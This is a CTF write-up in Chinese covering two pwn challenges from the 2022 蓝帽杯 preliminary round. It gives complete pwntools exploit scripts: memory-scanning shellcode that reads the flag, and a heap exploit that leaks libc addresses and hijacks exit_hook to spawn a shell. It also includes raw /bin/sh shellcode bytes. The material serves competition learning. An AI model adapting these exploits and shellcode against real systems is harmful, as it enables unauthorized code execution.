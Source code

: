 ```yaml
---
title: 2022 蓝帽杯初赛 pwn 复现
date: 2022-07-10 02:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=30/
pin: false
published:
---
```


## escape_shellcode(PIE+无libc/orw+shellcode爆破读取)

![image-20220710092803063](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710092803063.png)

![image-20220710113202330](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710113202330.png)

题目把flag读在bss段上，没给libc还开了pie，开了一个7权限的堆块区域0x2000，可以对堆块写0x100，执行之前会执行把除了rip其他寄存器清零的shellcode

![image-20220710092821892](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710092821892.png)

注意的点，堆地址高5位和基地址相同，从基地址开始0x1000地读

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'
context(arch='amd64', os='linux')

p = process("./escape_shellcode")
elf = ELF("./escape_shellcode")
libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

base=0x500000000000

shell='''
mov rdi,1
mov rsi,{}
mov rdx,0x1000
mov r14,0xfffff0000000
mov r15,0x1000
mov rax,1
syscall


mov rsi,rcx
and rsi,r14
add rsi,r15
add r15,0x1000
jmp $-0x19
'''.format(base)

p.send(asm(shell))

p.recvuntil("flag{")
flag = 'flag{'+p.recvuntil("}")
print(flag)
```

## Bank(exit_hook)

![image-20220710112051939](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112051939.png)

程序比较复杂，IDA解析也有点小问题，但可以看汇编。漏洞点在于

![image-20220710112202729](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112202729.png)

取钱操作中，如果取的钱和bank里的钱一致，不会减掉bank里的钱，就可以刷钱了，这里要多刷一点，因为在tran函数中的各个功能函数的参数是我们读入的钱数，如果钱少就执行不了。特别是任意地址泄露这个功能，这里我们可能要取很大的值。

![image-20220710112457335](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112457335.png)

利用思路是abyss函数可以实现一个edit的效果，只需要在bss变量这个堆里写入exit_hook，再改为one即可，难点在于libc地址的泄露，需要利用题目的任意地址free功能，用0x20的堆做一个堆合并，泄露main_arena。

![image-20220710112635037](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112635037.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'
context(arch='amd64', os='linux')

p = process("./Bank")
elf = ELF("./Bank")
libc = elf.libc

def dbg(code=''):
    gdb.attach(p,code)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def cmd(choice):
    sla("Click: ",choice)

def Deposit(num):
    cmd("Deposit")
    sla("How Much? ",num)

def Put(num):
    cmd("Put")
    sla("How Much? ",num)

def Info():
    cmd("Info")

def Login(card, pwd):
    cmd("Login")
    sla(": ",card)
    sla(": ",pwd)

def Transfer(who,num):
    cmd("Transfer")
    sla("who? ",who)
    sla("How much? ",num)

# malloc_0x18[num]
def ReadHeap(num):
    Transfer("admin", num)

def FreeAddr(addr):
    Transfer("hacker", 0x33)
    sla("hacker: Great!\n",addr)

def Malloc_0x10(data):
    Transfer("guest", 6)
    p.sendafter("data: ",data)

def Realloc(size):
    Transfer("ghost", 0xB)
    sla('ghost: &^%$#@!   :)\n',size)

# malloc_0x18 = addr
def edit(addr):
    Transfer("abyss", 0)
    p.sendline(str(addr))

#---------------------------------------------------
Login("0"*0x10, "0"*0x6)

cash= 0x100
mycash = 0x203010
bankcash = 0x2030A8

for i in range(0x30):
    Put(cash)
    Deposit(cash)
    Put(cash)
    cash*=2

for i in range(8):
    Malloc_0x10(str(i)*0x10)

Realloc(0x100)
Realloc(0x1)
ReadHeap(0x148/8)
p.recvuntil("0x")
heap_base = int(p.recv(12),16)-0x10
lg("heap_base")

Malloc_0x10(p64(0)+p64(0x421))
for i in range(35):
    Malloc_0x10(p64(0)+p64(0x21))

FreeAddr(heap_base+0x4d0+0x10)# 0x420
ReadHeap(0x240/8) 
p.recvuntil("0x")
libc_base =int(p.recv(12),16)-0x1ebbe0
lg('libc_base')

rtld_global_addr = libc_base+libc.sym['_rtld_global']
lg('rtld_global_addr')
ReadHeap(((rtld_global_addr-(heap_base+0x2a0))/8))
p.recvuntil("0x")
rtld_global = int(p.recv(12),16)
lg("rtld_global")
exit_hook = rtld_global+3848
lg("exit_hook")
one = libc_base+0xe6c7e
#-------------------------------------------------------------


FreeAddr(heap_base+0x2a0)
Malloc_0x10(p64(exit_hook)*2)
edit(one)
p.interactive()
```

